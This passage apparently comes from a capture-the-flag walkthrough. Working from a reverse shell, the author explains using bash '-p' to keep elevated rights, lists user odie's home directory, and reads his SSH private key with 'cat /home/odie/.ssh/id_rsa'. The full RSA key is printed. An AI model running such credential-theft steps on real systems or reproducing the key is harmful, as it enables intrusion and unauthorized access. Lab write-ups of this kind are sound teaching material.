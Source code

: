 
![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_16.gif)


The "-p" argument of bash allow conserving rights. Otherwise, we would have had a bash as __www-data__, not really interesting in our case.

Let's see if the user __odie__ got an SSH private key. It would be more convenient with a SSH shell, and more discreet.

```bash
rev-shell $ ls -la /home/odie/
total 64d
drwxr-xr-x 5 odie odie  4096 Dec 27 05:50 .
drwxr-xr-x 3 root root  4096 Dec 26 20:18 ..
-rw------- 1 odie odie  6335 Dec 27 05:37 .bash_history
-rw-r--r-- 1 odie odie   220 Dec 26 20:18 .bash_logout
-rw-r--r-- 1 odie odie  3526 Dec 26 20:18 .bashrc
drwx------ 3 odie odie  4096 Dec 27 05:09 .cache
drwx------ 4 odie odie  4096 Dec 27 05:09 .local
-rw-r--r-- 1 odie odie   675 Dec 26 20:18 .profile
drwxr-xr-x 2 odie odie  4096 Dec 27 05:46 .ssh
-rw------- 1 odie odie 10478 Dec 27 05:40 .viminfo
-rwxr-xr-x 1 odie odie   934 Dec 27 05:08 project.py

rev-shell $ cat /home/odie/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1VMOMwtecWKwr4SnW41bi7ALoelNH6mQ2s5jNlbwSa6iBCmG
aOvZZXNc6JrNZU/TMHKgigpxwt1DKWQ9UvWi3i6X/CpVgjrv3z/2VPhPO4GJU0JX
Q7NWpYv4s4ULgUhSIKxcnTvof6fxLAu9NxCGiLq6tL5ZG3naN9ITDK9MhFgrKYMH
/jTsiqdv/CkVhVK3EZHaKgqcJPxhkNInxM1S8mblPUrYQD/9rL8iq1YQyHhRddjU
zm1BT7j3vE8ukxs7VDeVgYEFS0HTRfyifQMLb+oa/GbMnoi73if9H9gVFMPdO6va
jyb5KUMB59/gheaFVEF5FWrQH3NNbnSX46SQIwIDAQABAoIBAQCbiBCkOrfC53d2
oLr8TxXdxJ7Wj6jBWvnX7f370msi7YYGjtgGi15XT0L//E2gfhC2E/zkaDUFJBkh
hooHgDwczc/V9G+foaTeGl5ZGSl7czhSUd4Z6BlWXbUX/fqjab0nQUPNB6691A5M
VMrB6PSNn8ccnGOPWso1RJ7K8sxQ+DrG3ry/xVxcq+ciyBeLrZjS4QJeybEjMEcl
/Dl6bGypH1uI7lo4/gwcmK220260JTCBa4zp3c930cw9ht4DcCcgY67no24BX4zi
SA7ZSNnOJRAMbNZU4369LxQOBYH66g0ndWLXz3FVNsch5yiMEFtcbW2jAvcCad01
+clQiBWBAoGBAOxF8Nl5OjZNsp0zRSj/WTxKur6uTQZkxSd2mA98wMhWwn0gdEtj
C2AIwEni9Lix/r0wIHc96QCScRIcn4X0+D4e9nLbdRWKAKcR3zNncPIcdR6ia8Hp
hNxowkB6E+nWqs86zq+dJvpuSCK3mi6MZAv42UtzyukPfrTieyKrlrDDAoGBAOci
nKcTLpLH6U4whb6/qOXJxvPhbcGSY67dswqrZC/iOVimHOEnho+L5zfEHsA1///i
FrZSnvhDSmzrTx2xGhejzNh7EM2fTNGgtbbTscdAfzUHEkTDpHntW0WomPQ3knLF
4kRCXQp1zRrTkoWQUrgJnNKEOq95ebFq/MBU7K0hAoGBALOKvmfz2Al153nPgQmT
aLMJMnk9qGhoYO0JEKoMKc7TJv3AkL7Mp9M1MzGyVjaXg7UuAi26jPmTTnrt50b7
DTzfeHV1ULaqZK6QRSUhwNEqUNGTqQD0u7JlpN8sJT+3kZrh3DfU2s7IyOYg0Pf4
VPpIAo90kUejL6yywdFpxJvTAoGASQL39RbsGVWo7xgIx46Hbb7lZ9iH8SOq9Wv2
yKIHTdDqSISAjucLbIDHEyiShikIqu3iOsmyib3H3swd+8Ub9ue5J5EIZ8uwWm+n
tw78E3LePAP1017xr8o4kLKHTm3XhwXXSbSk60728Uhv+lzypEv1C9LVLuTyegbP
vHmXIcECgYAE5+xbrXMXnRsxmQkKc4QB5eMZyvPHkq4CMNLrgwpr3b/MSGtZkwgS
pNyEYy/Ya2utPWzRFUPUOkDjMi4vYNvbJ8qztKTVRb6Nkj0b5ENLukBJ7fPIoA+R
Aw2IgvxFUXiq6D6Mw978b594/5tOmlwCR+JKK0pvYDeLLwg4kavcqA==
-----END RSA PRIVATE KEY-----
```
